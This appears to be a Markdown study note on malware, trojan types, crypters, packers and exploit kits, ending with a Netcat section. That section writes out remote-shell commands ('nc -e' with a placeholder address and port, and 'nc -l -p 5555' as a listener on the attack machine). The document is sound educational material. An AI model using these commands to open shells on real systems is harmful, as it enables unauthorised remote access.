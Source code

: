 # Malware, DoS, Session Hijacking

### <u>Malware Basics</u>

- **Malware** - software designed to harm or secretly access a computer system without informed consent
- Most is downloaded from the Internet with or without the user's knowledge
- **Overt Channels** - legitimate communication channels used by programs
- **Covert Channels** - Transfers information over, within a computer system, or network that is outside of the security policy. used by an attacker to hide data in an undetectable protocol.
- **Wrappers** - programs that allow you to bind an executable to an innocent file
- **Crypters** - use a combination of encryption and code manipulation to render malware undetectable to security programs
- **Packers** - use compression to pack the executable which helps evage signature based detection
- **Exploit Kits** - help deliver exploits and payloads
  - Infinity
  - Bleeding Life
  - Crimepack
  - Blackhole Exploit Kit

### <u>Trojans</u>

- **Trojans** - software that appears to perform a desirable function but instead performs malicious activity
  - To hackers, it is a method to  gain and maintain access to a system
  - Trojans are means of delivery whereas a backdoor provides the open access
- **Types**
  - **Backdoor trojan** -  a program which can bypass the standard system authentication or conventional system mechanisms like IDS, firewalls, etc. without being detected.
  - **Defacement trojan**
  - **Proxy server trojan**
  - **Botnet trojan**
    - Chewbacca
    - Skynet
  - **Remote access trojans**
    - RAT
    - MoSucker
    - Optix Pro
    - Blackhole
  - **E-banking trojans**
  	- Zeus
  	- Spyeye
  - **Command Shell Trojan** - Provides a backdoor to connect to through command-line access
    - Netcat
- **Covert Channel Tunneling Trojan** (CCTT) - a RAT trojan; creates data transfer channels in previously authorized data streams
- **Netcat**
  - "Swiss army knife" of tcp/ip hacking
  - Provides all sorts of control over a remote shell on a target
  - Connects via **nc -e IPaddress Port#**
  - **launching a program is -e**
  - From attack machine **nc -l -p 5555** opens a listening port on 5555
  - Can connect over TCP or UDP, from any port
  - Offers DNS forwarding, port mapping and forwarding and proxying
  